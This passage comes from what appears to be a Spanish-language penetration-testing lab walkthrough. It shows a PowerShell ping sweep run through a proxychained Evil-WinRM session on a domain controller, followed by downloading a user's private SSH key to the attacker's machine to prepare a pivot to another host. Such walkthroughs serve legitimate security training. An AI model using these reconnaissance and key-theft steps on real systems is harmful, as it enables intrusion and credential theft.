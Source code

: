 ```r
   Default Gateway . . . . . . . . . : 172.16.9.1
   DHCPv6 IAID . . . . . . . . . . . : 167792726
   DHCPv6 Client DUID. . . . . . . . : 00-01-00-01-2A-29-62-C9-00-50-56-B9-16-51
   DNS Servers . . . . . . . . . . . : ::1
                                       127.0.0.1
   NetBIOS over Tcpip. . . . . . . . : Enabled
```

Escribir `arp -a` para ver la tabla **arp** no produce nada interesante. Podemos usar **PowerShell** para realizar un barrido **ping** e intentar identificar hosts en vivo.

```r
*Evil-WinRM* PS C:\Department Shares\IT\Private\Networking>  1..100 | % {"172.16.9.$($_): $(Test-Connection -count 1 -comp 172.16.9.$($_) -quiet)"}

|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:5985-<><>-OK
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:5985-<><>-OK
172.16.9.1: False
172.16.9.2: False
172.16.9.3: True
172.16.9.4: False

<SNIP>

172.16.9.24: False
172.16.9.25: True
172.16.9.26: False
172.16.9.27: False

<SNIP>
```

Podemos ver un host en vivo, `172.16.9.25`, que tal vez una de las claves privadas **SSH** funcionará. Vamos a trabajar. Primero descargamos las claves **SSH** a través de nuestra conexión `evil-winrm` al **Domain Controller**.

```r
Evil-WinRM* PS C:\Department Shares\IT\Private\Networking> download "C:\Department Shares\IT\Private\Networking\ssmallsadm-id_rsa" /tmp/ssmallsadm-id_rsa 

Info: Downloading C:\Department Shares\IT\Private\Networking\ssmallsadm-id_rsa to /tmp/ssmallsadm-id_rsa

|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:5985-<><>-OK
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:5985-<><>-OK
                                                             
Info: Download successful!

*Evil-WinRM* PS C:\Department Shares\IT\Private\Networking> 
```

---

## The Double Pivot - MGMT01
